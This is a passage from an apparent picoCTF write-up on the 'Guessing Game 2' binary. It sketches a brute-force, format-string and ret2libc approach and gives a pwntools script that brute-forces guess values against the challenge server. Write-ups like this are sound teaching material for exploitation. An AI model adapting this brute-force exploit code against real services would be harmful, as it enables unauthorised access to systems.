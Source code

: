 ```C
	printf("Version: %x\n\n", get_version());
	
	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```

## Overview & Idea

- Let's check the infomations of binary

![img](/picoCTF/guessing_game_2/assets/bin_info.png)

- With this challenge, I take advantage of brute-force script and format string to bypass some condition code and stack protection, after bypassed, I have just found which libc that server used, then the challenge return back to ret2libc.

## Detail

- The get_random() of this program is so weird. It's not random, it's specific value because rand is address of rand function (here is address in libc) and in assembly code, it just do a bunch of opcode and return the final value. I think rand is internal function of binary (binary has no PIE), because if it's located in libc, it will be randomized because ASLR protector.

- This address can be changed each time we run the program, but it's take a period of time, I don't know how does it work but hmm, it's so weird... :v. 

- Ok, We know that the get_random() return the fixed value. We can bypass the do_stuff to get through to win function by brute-force with python script and I found it is -3727.

```python
from pwn import *

for payload in range(-4095, 4097):
    #  elf = ELF("./vuln")
    #  p = elf.process()
    log.info(str(payload).encode('ascii'))
    p = remote("jupiter.challenges.picoctf.org", 13610)
    p.recvuntil("What number would you like to guess?\n")
    p.sendline(str(-3727).encode("ascii"))
    p.recvuntil("Name? ")
    p.sendline(b"damn")
    p.recvuntil("What number would you like to guess?\n")
    p.sendline(str(payload).encode('utf-8'))

    s = p.recvline()
    if ("Congrats!" in s):
        break
    p.close()
print(payload)
p.interactive()
```
